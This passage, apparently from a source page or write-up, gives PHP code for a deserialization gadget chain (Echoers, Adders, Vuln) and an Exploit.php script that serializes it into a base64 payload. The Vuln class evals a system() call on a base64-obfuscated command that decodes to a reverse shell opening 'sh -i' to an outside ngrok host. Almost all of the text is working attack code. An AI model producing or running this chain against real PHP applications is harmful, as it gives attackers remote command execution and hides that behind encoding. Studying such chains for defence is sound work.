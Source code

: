 ```php
<?php

namespace GadgetTwo {
    class Echoers
    {
        protected $klass;

        function __construct()
        {
            $this->klass = new \GadgetOne\Adders(new \GadgetThree\Vuln());
        }

        function __destruct()
        {
            echo $this->klass->get_x();
        }
    }
}
```

**GadgetThree\Vuln.php:**

```php
<?php

namespace GadgetThree {
    class Vuln
    {
        public $waf1 = 1;
        protected $waf2 = "\xde\xad\xbe\xef";
        private $waf3 = false;
        public $cmd = 'system("echo c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTAxMzggMD4mMQ== | base64 -d | bash");';
        function __toString()
        {
            eval($this->cmd);
        }
    }
}
```

**Exploit.php:**

```php
<?php

require 'vendor/autoload.php';

use GadgetOne\Adders;
use GadgetTwo\Echoers;
use GadgetThree\Vuln;

$echoers = new Echoers();
$serialize = base64_encode(serialize($echoers));
echo var_dump($serialize);

?>
```
